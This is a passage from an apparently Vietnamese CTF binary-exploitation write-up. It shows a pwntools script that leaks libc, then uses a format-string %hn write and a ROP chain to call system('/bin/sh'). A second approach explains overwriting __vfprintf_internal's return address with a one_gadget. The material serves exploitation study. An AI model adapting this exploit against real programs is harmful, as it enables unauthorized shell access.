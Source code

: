 ```main``` :  ở đây cần chú ý đến đoạn ```dup2```
p.send(payload2)

libc_leak = p.recvuntil(b'_')
libc_leak = int(libc_leak.split(b'|')[1][:-1],16)

libc_base = libc_leak - 0x2a1ca

log.info(f"{libc_base = :#x}")


#0x000000000002b465: pop rbx; pop r12; pop r13; pop r14; pop rbp; ret;
mega_pop = libc_base + 0x000000000002b465
log.info(f"{mega_pop = :#x}")

ret = (libc_base + 0x000000000010f75b + 1)
pop_rdi = (libc_base + 0x000000000010f75b)
binsh = (libc_base + 0x001cb42f)
system = (libc_base + 0x58740)
package = {
        mega_pop & 0xffff: ret_to_main_ptr,
        mega_pop >> 16 & 0xffff:ret_to_main_ptr+2,
        mega_pop >> 32 & 0xffff:ret_to_main_ptr+4
        }
order = sorted(package)

payload = f'%{order[0]}c%15$hn'.encode()
payload += f'%{order[1] - order[0]}c%16$hn'.encode()
payload += f'%{order[2] - order[1]}c%17$hn'.encode()
payload = payload.ljust(40,b'a')
payload += flat(
    pop_rdi,
    binsh,
    ret,
    system,
    package[order[0]],
    package[order[1]],
    package[order[2]],
)


p.send(payload)

p.interactive()
```


### Exploit 2


- ở đây ta thấy khi ```printf``` được gọi , khi đi sâu vào thì nó sẽ gọi ```__vfprintf_internal``` và trước khi hàm này kết thúc sẽ có 1 số lệnh ```pop``` , vậy điều này sẽ hữu ích với one_gadget?  nếu ta overwrite ```ret_address``` của ```__vfprintf_internal``` bằng 1 one_gadget nào đó thõa điều kiện thì ta hoàn toàn có thể lấy được shell
- tuy nhiên ta chỉ có địa chỉ stack?  , lúc này ta sẽ dùng định dạng "*" , nói 1 cách dễ hiểu thì nó sẽ lấy tất cả số byte ở vị trí đó và in ra , như ta đã biết thì khi main kết thúc nó sẽ gọi libc_start_main_ret đúng không? , vậy thì ta sẽ có luôn 1 địa chỉ libc ở đó , ta chỉ cần dùng "*" in tất cả byte của libc ra trừ đi ```offset``` và + với địa chỉ one_gadget là ta sẽ thành công lấy được shell
